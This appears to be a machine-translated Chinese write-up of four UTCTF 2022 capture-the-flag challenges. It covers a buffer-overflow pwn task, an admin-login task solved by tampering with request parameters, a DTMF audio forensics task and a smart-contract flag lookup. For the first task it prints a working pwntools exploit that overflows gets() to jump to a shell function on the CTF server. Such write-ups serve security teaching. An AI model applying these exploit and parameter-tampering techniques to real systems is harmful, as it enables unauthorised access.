# UTCTF 2022 —详细报道

> 原文：<https://infosecwriteups.com/utctf-2022-writeup-de956bfe0bf3?source=collection_archive---------2----------------------->



我在 UTCTF 中参加了一些挑战，所以我想分享一下这些挑战的记录。

1.  **跳来跳去**



这是基于缓冲区溢出攻击的初学者挑战。

我们有二进制文件。为了分析它，我们可以使用像[吉德拉](https://ghidra-sre.org/)或[艾达](https://hex-rays.com/ida-pro/)这样的软件。我曾经使用 ghidra 并通过反编译器查看函数。

我们有主函数，它不提供更多的信息，从用户的输入看起来更直接。



当我观察二进制文件中可用的函数时。我发现“get_flag”函数可疑。



所以，它基本上是用'/bin/sh '调用系统函数。这是一个漏洞，它会让我们通过外壳访问服务器。



我们知道 gets()函数容易受到缓冲区溢出攻击，我们可以利用它。我写了一个脚本来获得交互式 shell。

```
from pwn import *
r = remote('pwn.utctf.live', 5001)
r.recvuntil('drill')
e = elf.ELF('./jump')
payload = b'a'*120 + p64(e.symbols['get_flag']) + b'\n'
r.sendline(payload)
r.interactive()
```

我们用两件事创建一个有效载荷，一是我们溢出缓冲区来修改 rsp 地址，在 gets()函数执行后，它将指向下一个地址。所以，我们必须跳转到 get_flag()函数来获取 shell。我们知道缓冲区大小是 112。由于是 64 位二进制，112+8 会溢出 rbp(基址指针)，接下来是 rsp(堆栈指针)。我们用 get_flag()函数地址的地址写 rsp 寄存器。然后，我们将这个有效载荷发送到服务器。



所以最后我们得到了 shell，并为 flag 创建了“flag.txt”文件。

**2。作为管理员 Pt 3** 登录



这是另一个基于 web 漏洞的初学者挑战。他们给了我们两样东西

1.  链接到易受攻击的网站
2.  服务器 python 代码

当我分析服务器代码时。我发现用户名和密码是“admin”。



我们已经通过这是登录页面。但是在传递之后，我们得到了错误。



如果我们再次观察服务器代码，会发现请求了三个有效负载

1.  用户名
2.  显示当前工作目录
3.  isAdmin

但是当我们通过浏览器中的 inspect 元素检查发送到服务器的数据包时。仅发送用户名和密码。



所以我们必须重写请求参数并将其发送到服务器。我们在“网络”标签中有“编辑并发送”选项。



在发送这个请求之后，我们得到这个标志作为我们的响应。



**3。听起来很熟悉**



这是一个基于分析 wav 文件并找到其中隐藏信息的取证挑战。

当我打开 wav 文件时，我明白这是手机键盘的声音。于是我就用[这个](https://unframework.github.io/dtmf-detect/)网站来解码音调。

当我放下“超级奇怪”的 wav 文件并播放它时。它给了我解码的数字。

```
**100888210610071905578878610699109864888508912081681081029071571029810957488812286111817274108102816161**
```

此外，每次两三位数之间都有间隔，所以我把它们分开了。后来我观察到它们是字符的 ascii 值。做了一个小 python 代码来转换。



运行程序后，我得到了一个 base64 编码的字符串。解码给了我旗子。



4.**脾气暴躁的精灵**



这是一个基于智能合约的杂项挑战。他们给了我们智能合约地址和粘贴箱中的智能合约。

我们可以通过[以太网扫描](https://ropsten.etherscan.io/)查看智能合同的详细信息，它会告诉您有关智能合同创建和地址间交易的详细信息。

该智能合同已在 Ropsten 测试网络中部署。所以我们必须在 etherscan 中选择 Ropsten 网络并搜索地址。

[https://ropsten . ethers can . io/address/0x 867d 66 c 78235 CD 6 c 989 fbfa 34606 fcff 637 FB 613](https://ropsten.etherscan.io/address/0x867D66C78235CD6c989FbFA34606FcfF637fB613)

我们可以看到已经发生了几笔交易，但我们对合同创建感兴趣。



当我们更详细地检查交易时。



我们可以在输入数据部分看到编码为 UTF-8 的标志。

此外，为了了解更多关于智能合同的信息，我们查看了 [pastebin](https://pastebin.com/T7r9vFvg) ，其中包含了更多关于已部署智能合同的信息。

演奏这首 CTF 很有趣。希望你学到了新东西。

阅读我的其他文章。

网址:[https://vishnuram1999.github.io/](https://vishnuram1999.github.io/)

更多其他文章请关注我。